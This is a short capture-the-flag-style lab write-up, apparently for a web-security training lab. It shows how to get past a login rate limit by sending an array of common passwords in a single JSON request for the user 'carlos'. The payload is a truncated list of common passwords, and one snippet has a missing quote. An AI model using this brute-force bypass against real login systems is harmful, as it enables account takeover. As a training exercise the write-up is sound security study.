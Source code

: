 Let's try the Intruder and set a payload to the password, and try the Snipper Attack with our provided candidate passwords.

I got blocked saying `You have made too many incorrect login attempts. Please try again in 1 minute(s)`.

Since, it's JSON format, let's try to give more than one password in the request, in an array format.

```json
{"username":"carlos","password":["testPassword", "testPassword2]}
```

And we got the message saying: `Invalid username or password` so it means it accepts an array of passwords, where I will put all the candidate passwords that I have.

In the end the body would look like this:

```json
{"username":"carlos","password":["123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
...
```

And when I send this request, I got a `302 Found`. I select "Send this request to the browser" and the lab is solved.




